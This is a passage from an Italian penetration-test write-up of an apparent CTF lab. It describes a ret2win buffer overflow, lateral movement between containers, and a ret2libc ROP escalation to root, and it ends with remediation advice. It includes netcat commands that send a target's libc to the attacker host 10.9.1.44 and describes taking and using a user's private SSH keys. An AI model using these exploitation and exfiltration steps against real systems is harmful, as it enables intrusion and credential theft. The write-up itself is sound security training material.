

Come si vede in figura, la funzione win comincia dall'indirizzo `0x0000000000400646`. Per trovare poi la reale lunghezza del buffer allocato in memoria da vuln ho utilizzato il comando `cyclic` di pwndbg che crea una stringa di caratteri avente elevata entropia. Ho inserito tale stringa come input del programma (sempre all'interno di pwndbg) e, dopo che il programma è terminato in SIGSEV, ho controllato quale parte della stringa è finita all'interno del registro RIP.


L'indirizzo su `ret 0x6161616161616172` è il valore del Return Address (sovrascritto) ovvero quello che è stato prelevato dallo stack e inserito nel registro RIP (tramite pop). Il comando `cyclic -l 0x6161616161616172` mi ha infine permesso di ottenere l'offset tra il buffer e il Return Address, che è di 136 bytes.



Con tutte queste informazioni ho costruito il payload finale all'interno di solve.py.


L'indirizzo che ho usato non è esattamente quello trovato prima, perchè utilizzandolo il payload non funziona e il programma va in SIGSEV. La causa è probabilmente un disallineamento dello stack su quell'indirizzo, quindi ho provato con l'indirizzo della terza istruzione della funzione win invece della prima. In questo modo lo script funziona e spawna la shell.


Fino a questo punto ho lavorato sull'eseguibile in locale sulla macchina, ma non è possibile usare lo script verso la macchina target visto che l'eseguibile non è esposto su nessuna porta. Per ovviare al problema ho convertito il codice dello script in una forma più compatta, eseguibile come un comando direttamente dalla shell della macchina target.



Il comando funziona e ottengo una shell come `root`. Il comando python2 -c print fa un pipe diretto del payload verso l'eseguibile, mentre cat serve a tenere aperto lo stdin della shell che altrimenti si chiuderebbe.
Mi è poi bastato andare nella directory /root per trovare un file root.txt, che però non contiene nessuna flag.



Anche dopo la ricerca di un file flag.txt tramite find non ho trovato nessuna flag che probabilmente non si trova su questa macchina, o meglio su questo container.

### Lateral Movement

Uno scan tramite `nmap` sulla VLAN della macchina target (172.17.0.0/16) rivela due host (probabilmente altri 2 container docker). Il secondo sembra semplicemente hostare il database postgresql mentre il primo sembra più interessante.





Ho provato a loggarmi con ssh alla macchina .1 con varie credenziali comuni ma senza successo; non ho continuato oltre visto che la Room dice esplicitamente che non è richiesto bruteforce. Inoltre ho tentato di collegarmi tramite FTP sulla porta 21 ma la macchina target non ha ftp. Mi sono quindi concentrato sul servizio alla porta 4444, che sembra insolito.



Fortunatamente la macchina target ha `netcat` installato che mi ha permesso di collegarmi al servizio 4444. Su tale porta gira lo stesso eseguibile ret di prima: mi è bastato usare lo stesso payload per ottenere una shell sulla macchina 172.17.0.1 e fare così movimento laterale.



Vengo loggato come zeeshan e ottengo la seconda flag della Room.

### Privilege Escalation on Second Machine

Con la stessa logica di prima, anche in questa macchina cerco un eseguibile SUID che mi permetta di passare da zeeshan a root.



Il primo eseguibile che salta all'occhio è l'unico che si trova nella root ovvero exploit_me. Lo trasferisco sulla mia macchina usando lo stesso metodo usato prima.



Le protezioni di questo ELF sono le stesse di ret. Analizzandolo con Ghidra però ci sono alcune differenze sostanziali rispetto a ret.





Infatti l'unica funzione all'interno di exploit_me è il main. Non ci sono altre funzioni da poter chiamare per ottenere shell o altro. Anche questo eseguibile è vulnerabile a BOF per gli stessi motivi di ret. Anche se posso reindirizzare il flusso di esecuzione, non ho a disposizione una funzione all'interno dell'ELF da poter eseguire come prima. Essendo lo stack non eseguibile (NX enabled) non è nemmeno possibile effettuare un attacco di shellcode injection; rimane soltanto un' opzione disponibile: un attacco `ret2libc`.
Return to libc o ret2libc è un attacco avanzato che consiste nell'utilizzo della libreria libc usata dal programma. Il funzionamento è il seguente:
- Trovare l'indirizzo a cui è stata mappata la libc (base libc address)
- Trovare determinati gadget all'interno della libc (istruzioni assembly che terminano con un'istruzione ret) 
- Con i gadget trovati costruire una ROP chain che spawna una shell
- Injectare un payload tramite BOF contenente gli indirizzi della ROP chain, calcolati tramite il base libc address

Il primo step non è necessario nel caso in cui l'ASLR della macchina in cui viene eseguito il programma è disabilitato, ma in questo caso non lo è; l'ho verificato tramite il comando:

```
cat /proc/sys/kernel/randomize_va_space
```

che restituisce 2 (Full ASLR).

L'`ASLR` o Address Space Layout Randomization è una protezione che randomizza l'indirizzo a cui viene mappata la libreria libc ad ogni esecuzione. Per bypassarlo ho utilizzato il metodo `ret2plt`. Questa tecnica consiste nello stampare l'indirizzo effettivo in memoria di una funzione della libc (di solito la `puts`) tramite lettura della `GOT`.
Segue una breve spiegazione dell'utilizzo delle tabelle `PLT` e `GOT` da parte del programma.

Quando il programma viene eseguito, mappa la libc e altre librerie dinamiche ad un indirizzo random in memoria. Ogni qual volta che una funzione di tale libreria viene chiamata per la prima volta, il linker calcola il suo indirizzo e lo inserisce nella GOT, compilandola man mano che le funzioni vengono chiamate. In questo modo solo gli indirizzi delle funzioni che vengono effettivamente utilizzate dal programma vengono calcolati e caricati. 
Quando una funzione della libc viene chiamata, analizzando tramite gdb, accanto all'istruzione di chiamata `call 0x123456 ` compare `<puts@plt>`. Questo tag indica che l'indirizzo corrispondente non è quello della puts ma di una procedura all'interno della PLT. Questa procedura trova l'indirizzo della puts e lo inserisce nella entry corripondente della GOT nel caso in cui è la prima volta che la puts viene chiamata, altrimenti salta direttamente a tale indirizzo. 

Per iniziare a cercare gadget all'interno della libreria libc, ho bisogno di sapere l'esatta versione utilizzata dalla macchina; se utilizzassi una versione anche leggermente differente l'exploit non funzionerebbe. 
In queso caso però ho diretto accesso alla macchina (via reverse shell ottenuta in precedenza) quindi posso direttamente prendere l'ELF della libreria all'interno del container. 







Dopo alcune ricerche all'interno del container ho trovato il file corretto, ovvero:
`/lib/x86_64-linux-gnu/libc-2.23.so`

Mentre ho cercato per tale file all'interno della macchina, ho anche trovato delle `chiavi RSA` (publiche e private) relative a ssh nella home di zeeshan. Ho portato anche queste nella mia macchina, serviranno dopo.
Per fare entrambi i trasferimenti di file ho provato il metodo usato in precedenza ovvero un server PHP sulla mia macchina non ha funzionato. Ho utilizzato quindi netcat che è gia installato sulla macchina:

```
ricevente: nc -l -p 9999 > libc-2.23.so 
target:    nc -w 3 10.9.1.44 9999 < /lib/x86_64-linux-gnu/libc-2.23.so
```

Una volta raccolti tutti i file necessari, ho iniziato a costruire lo script con pwntools, specificando la libc che ho prelevato dal container.



Lo scopo adesso è trovare dei gadget nella libc che permettano di spawnare la shell. Per fare questo è necessario eseguire la systemcall `execve` con '/bin/sh' come parametro. Essendo che gli ELF hanno architettura x86_64, la convenzione per effettuare tale chiamata è la seguente:

- rax <- `0x3b`
- rdi &nbsp;<- `'/bin/sh'`
- rsi  &nbsp;<- `NULL`
- rdx <- `NULL`

fonte: https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit

L'idea per ottenere una shell tramite `ROP` è la seguente: ho bisogno di gadget che mi
permettano di riempire (tramite operazioni pop dallo stack) i registri come indicato sopra e
infine il gadget `syscall` che genera una interrupt ed effettua una systemcall.
L'istruzione syscall necessita di trovare il numero della systemcall che si vuole chiamare
allinterno del registro rax (`0x3b` in questo caso ovvero 59 per la execve ). Subito dopo viene
quindi eseguita la execve che esegue qualsiasi eseguibile dato un determinato path come
parametro. Essa può essere utilizzata con un numero variabile di parametri e li preleva in
ordine da rdi, rsi e rdx. Essendo che ho specificato soltanto un parametro (il
path ' /bin/sh' ) gli altri due registri devono contenere il valore `NULL`.

Ho utilzzato `ropper` per trovare i gadget all'interno della libc.



Con il seguente trovato ho trovato il mio primo gadget (uno qualsiasi di quelli in figura), che si occuperà di riempire il registro rax con il valore 0x3b dallo stack.
Ripetendo il comando con le altre istruzioni ho trovato tutti gli altri gadget necessari, compresa l'istruzione syscall.

Per prima cosa ho trovato la lunghezza del buffer, che è di 40 bytes.



Ho poi scritto uno script che si occupa soltanto di stampare l'indirizzo `puts@plt` e di trovare l'indirizzo effettivo in memoria della funzione puts, via ret2plt:



L'output dell'esecuzione dello script è il seguente:



il quale sembra funzionare correttamente: stampa l'indirizzo puts@plt che rimane costante ad ogni esecuzione, mentre l'indirizzo effettivo della puts in memoria (il secondo) cambia perchè la libc viene ri-mappata ad ogni esecuzione.


Il seguente pezzo di codice che ho aggiunto calcola l'indirizzo base della libc a run-time e lo stampa. Per calcolarlo sottrae l'offset della funzione puts (all'interno della libc) al suo indirizzo effettivo una volta che la libc viene mappata: questa operazione restituisce proprio il base address della libc in memoria.


Tramite pwngdb ho potuto verificare che l'indirizzo della libc calcolato è corretto.
Infine ho costruito il secondo payload da inviare, contenente la ROP chain composta dai gadget trovati con ropper.


L'esecuzione dello script va a buon fine e ottengo una shell (in locale)


Per eseguire lo script dalla mia macchina verso la macchina target ho utilizzato ssh con le chiavi RSA trovate in precedenza, modificando lo script in questo modo:


dove il file `id_rsa` è la chiave privata di zeeshan.


Eseguendo lo script ottengo una shell sulla macchina target come root e trovo la terza ed ultima flag.

</br>

## Conclusion

Il rischio complessivo identificato dall'attività di VAPT è **Alto**. Sia la macchina target che una seconda macchina (o secondo container) sono state completamente violate. In entrambe ho ottenuto prima accesso come utente con bassi privilegi e poi come root. Proprio questo mi ha permesso di fare scan della VLAN interna e movimento laterale. Ho ottenuto accesso a dati confidenziali come chiavi private, password, e dump del database. 
Le componenti della triade CIA sono state pesantemente compromesse. In primis Integrità e Confidenzialità ma visto la completa violazione di più sistemi non è da escludere che anche la Disponibilità di alcuni servizi potrebbe essere stata attaccata.

### Recommendations

Viste le varie vulnerabilità trovate ci sono numerosi fix e miglioramenti necessari. Per ogni vulnerabilità trovata, elenco le mitigazioni consigliate:
- **Anonymous FTP Login**: disabilitare l'opzione di login anonimo all'interno di FTP.
- **Cookie senza HttpOnly**: Impostare l'attributo "HttpOnly" su ogni cookie di sessione.
- **FTP Login in chiaro**: Utilizzare FTPS che cifra i dati scambiati, molto più sicuro.
- **TCP/ICMP timestamp reply:** Disabilitare supporto per timestamp ICMP o bloccare tali richieste remote via firewall.
- **Hardcoded password in eseguibile**: ofuscare l'eseguibile e mantenere la password su un file, se possibile cifrata.
- **Odoo Arbitrary File Upload** (CVE-2017-10803): Disabilitare il modulo "Database Anonimization" o aggiornare Odoo alla versione più recente.
- **SUID ret2win in eseguibile**: Abilitare Canary e Pie nell'eseguibile, sostituire gets con fgets o getline più sicure perchè effettuano il controllo sulla dimensione del buffer impedendo quindi BOF e rimuovere funzione win inutilizzata.
- **ret2libc in eseguibile**: stesse modifiche della vulnerabilità precedente.

